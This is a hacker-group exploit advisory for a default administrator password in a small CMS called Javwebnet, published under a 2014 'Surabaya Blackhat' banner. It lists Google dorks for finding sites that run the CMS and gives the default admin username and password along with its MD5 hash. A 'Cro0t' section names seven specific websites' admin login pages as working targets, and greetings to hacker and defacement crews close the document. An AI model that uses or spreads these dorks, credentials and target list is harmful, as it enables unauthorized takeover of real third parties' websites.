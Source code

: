 # Javwebnet-CMS-Default-Password-Vulnerability

##### Google Dork
> intext:"web design by javwebnet"
> inurl:"admin/chace.php"
> intitle:"Explore Your Brain ! \m/ Google sek ngaceng!"


+ Date                 : 05/01/2014
+ Exploit Author       : BarrabravaZ
+ Vendor Homepage      : http://www.javwebnet.com/
+ Version              : 1.0
+ Tested on            : Windows, Linux
+ Surabaya Blackhat "Learn to be Better"
+ 
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
«««:»»»          Author will be not responsible for any damage.          «««:»»»
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
x
x Issue: 
x Default Password Admin
x 
x Risk level: High
x ~ The remote attacker has the possibility to manage the website. ~
x ~ The remote attacker is able to login into website with access level as admin. ~
x 
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

[!]###########################################################################[!]
##
## Proof Of Concept:
## http://127.0.0.1/admin/
##
## Username : admin
## Password : 17t17n25a (md5: 3445c774b86384665a5315b30f8a6735)
##
## Cro0t ##
## http://www.nomorsejagad.com/admin
## http://www.decalartworks.com/admin
## http://www.perdanajakarta.com/admin
## http://www.bangkitperdana.com/admin
## http://www.kecapborobudur.com/admin
## http://www.maulidaperdana.com/admin
## http://www.istanabajutidur.com/admin
##
[!]###########################################################################[!]

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[ Thx TO ]
[+] Meninbox wong ganteng unyu2 :D 
[+] Katon --> Was here
[+] Zeeattacker aku njal0k oleh2 teko bangkok yo cok :v
[+] Bagfreakz aKa paijo painem hahaha
[+] Gandrunx --> master koding ,ajarin doong kakak..
[+] Ch0c0 terhumanisasi
[+] MyWisdom kakak paling cakep :*
[+] Array --> Mboh wong iki geje nick'e array wkwkwk
[+] Surabayag3tar guruku ('/\')
[+] Mr. DC bang jali :D
[+] Dem1t,Bejat,Morgue,OmJin..
[+] Siti Jubaidah,X'inject,R1O,Angel DOt ID...
[+] Haxor HuSsY, Hax0r W0w, Leet Hax0r,Kami Hax0r...
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[++] SurabayaBlackhat [++] Madleets [++] IFC [++] Hiddenc0de [++] devilzc0de [++]
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx